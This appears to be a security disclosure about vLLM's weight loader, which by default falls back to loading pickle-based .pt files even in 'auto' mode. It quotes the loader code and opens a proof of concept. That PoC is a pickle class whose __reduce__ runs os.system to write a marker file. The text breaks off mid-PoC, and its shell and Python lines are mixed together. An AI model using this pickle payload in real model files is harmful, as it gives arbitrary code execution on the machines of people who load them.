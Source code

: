 **Key Difference from Report #1**:
- **UI:N** (No user interaction) - Auto-loading scenarios
- Higher CVSS due to default behavior

---

## Technical Analysis

### **Vulnerable Code**

**Location**: `default_loader.py:88-106`

```python
def _prepare_weights(...) -> tuple[str, list[str], bool]:
    # Some quantized models use .pt files for storing the weights.
    if load_format == "auto":
        allow_patterns = ["*.safetensors", "*.bin"]  # Line 89
    elif (load_format == "safetensors"
          or load_format == "fastsafetensors"):
        use_safetensors = True
        allow_patterns = ["*.safetensors"]
    elif load_format == "mistral":
        use_safetensors = True
        allow_patterns = ["consolidated*.safetensors"]
    elif load_format == "pt":
        allow_patterns = ["*.pt"]  # ⚠️ Explicitly allows pickle
    # ... more formats ...

    if fall_back_to_pt:
        allow_patterns += ["*.pt"]  # ⚠️ ALWAYS adds .pt support (Line 106)
```

### **Why This Is More Severe**

1. **Default Behavior**: `fall_back_to_pt=True` by default (Line 49)
2. **Auto-Loading**: Affects `load_format="auto"` (most common)
3. **Broader Impact**: All model loaders inherit this vulnerability
4. **No User Control**: Fallback happens automatically

---

## Proof of Concept

### **PoC: Auto-Fallback Exploitation**

```python
"""
Demonstrates automatic fallback to unsafe .pt loading
"""

# Scenario: User thinks they're using safe safetensors
# But vLLM auto-falls back to unsafe .pt

# 1. Create fake safetensors directory
mkdir my-safe-model
cd my-safe-model

# 2. Place malicious .pt file
python -c "
import torch
class Exploit:
    def __reduce__(self):
        import os
        return (os.system, ('echo PWN3D > /tmp/auto_fallback_rce',))
```